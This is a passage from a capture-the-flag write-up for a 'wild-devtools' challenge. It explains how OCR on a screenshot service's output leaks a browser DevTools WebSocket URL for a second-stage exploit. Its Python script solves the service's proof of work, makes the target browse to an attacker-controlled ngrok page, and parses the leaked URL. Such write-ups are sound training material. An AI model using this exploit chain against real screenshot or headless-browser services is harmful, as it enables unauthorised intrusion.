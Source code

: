 The result of the screenshotter service would look something like this. We need to interpret the result and modify our second-stage exploit before the 10 seconds is up and the browser opens it.

![](<../../.gitbook/assets/image (81).png>)

I used [PyTesseract](https://pypi.org/project/pytesseract/) to perform OCR on the result and extract the WebSocket URL. Due to the quality of the image, this was only fully accurate about 1 in 5 times. The script will also update our second-stage payload with the correct port and WebSocket URL.

```python
import requests
import pytesseract
from PIL import Image
from io import BytesIO
import re
import time
import os

while True:

    r = requests.get("https://wild-devtools.ctf.bsidestlv.com/screenshot")

    puzzle = r.headers['X-Puzzle']

    print(f"Puzzle: {puzzle}")

    # get pow by running pow.go
    pow = os.popen("go run pow/pow.go {}".format(puzzle)).read().strip()
    print(f"POW: {pow}")

    r = requests.get(
        "http://wild-devtools.ctf.bsidestlv.com/screenshot?url=http://986d-42-60-68-174.ngrok.io/leak.html",
        headers={
            'X-Puzzle': puzzle,
            'X-Proof-of-Work': pow
        }
    )
    img = r.content

    # OCR
    with open("screenshot.png", "wb") as f:
        f.write(img)
        
    text = pytesseract.image_to_string(Image.open(BytesIO(img)))
    print(text.splitlines()[5])

    wsUrl = re.search(r"/devtools/page/(.*)\"", text.splitlines()[5]).group(1).replace(" ", "").replace("S", "5").replace("O", "0").replace("I", "1").replace("L", "1").replace("T", "7")
    print(wsUrl)
```